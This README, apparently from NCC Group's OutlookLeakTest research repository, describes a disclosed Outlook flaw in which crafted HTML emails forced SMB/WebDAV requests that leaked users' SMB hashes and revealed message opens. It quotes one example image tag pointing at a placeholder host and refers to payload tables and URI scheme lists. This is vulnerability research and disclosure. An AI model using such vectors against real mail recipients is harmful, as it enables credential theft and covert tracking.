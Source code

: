 # The Outlook HTML Leak Test Project!

## Blog post:

https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/

## What's in "./Schemes-List.xlsx"?

List of URI schemes that might work in Windows. These schemes/protocols can be useful in similar research to find new vulnerabilities or to bypass current protections. Other products might be affected similarly but it has not been researched here.

It is interesting that opening this file using MS Office takes longer than usual that may suggest Excel is doing something on some of them. This is a great sign to find bugs/features!

## What's in "./OutlookMailApp/OutlookMailApp/resources/template.html"?

List of HTML tags that might send requests to other resources automatically or by user interaction.
This file has been generated based on the following sources:
* https://github.com/cure53/HTTPLeaks
* https://stackoverflow.com/questions/2725156/complete-list-of-html-tag-attributes-which-have-a-url-value


## Research and the Tales:

While I was working on an assessment, I received an HTML email in Outlook 2010 that contained an image tag similar to:
```
<img src="//example.com/test/image.jpg" >
```

I could see that Outlook was searching for something after opening that email and it took longer than usual to fully open it. I quickly realised that Outlook actually used the URL as `\\example.com\test\image.jpg` and sent `example.com` a SMB request.

Although it did not load the image even when the provided SMB path was valid, it could send my SMB hash to an arbitrary location. This attack did not work on Outlook 2016, however it made me start a small research project in trying different HTML tags that accept URIs with different URI schemes and special payloads.

I managed to test a list of known URI schemes with different targets by designing a quick (and dirty) ASP.NET application that used ASPOSE.Email (https://downloads.aspose.com/email/net) and Microsoft Office Interop libraries. This application generates readonly MSG files similar to the received or sent emails in Outlook. 
The cure53 HTTPLeaks project (https://github.com/cure53/HTTPLeaks) with minor changes was used as the HTML template to generate the emails. The dirty C# code, URI Schemes, formulas, and the HTML template used in this research can be found on this repository.

In order to reduce complications, Wireshark and Process Monitor of Sysinternals Suite were used to detect remote and local filesystem calls.

## Discovered Vulnerability in Outlook

Outlook sent external SMB/WebDAV requests upon opening a crafted HTML email. This could be abused to hijack a victim’s SMB hash or to determine if the recipient had viewed a message. 
This issue was exploited using Outlook default settings that blocked loading external resources such as image files.
These requests were sent immediately after opening an email. When SMB port was blocked, a WebDAV request on port 80 was sent. For more details and the fix, please refer to https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/

### Identified payloads:

#### Remote Calls:
Although the `\\` pattern was blocked by Outlook, a number of other patterns and URI schemes were found that forced Outlook to send requests to remote servers.
The following table shows the identified vectors:

![Outlook Remote Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/remotecalls.png?raw=true)

#### Local Filesystem Calls:
The following URI schemes could also be used target the local filesystem that might be useful:

![Outlook Local Filesystem Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/localfscalls.png?raw=true)


## Copyright and License
OutlookLeakTest project is copyright 2018, NCC Group, and licensed under the Apache license (see LICENSE).
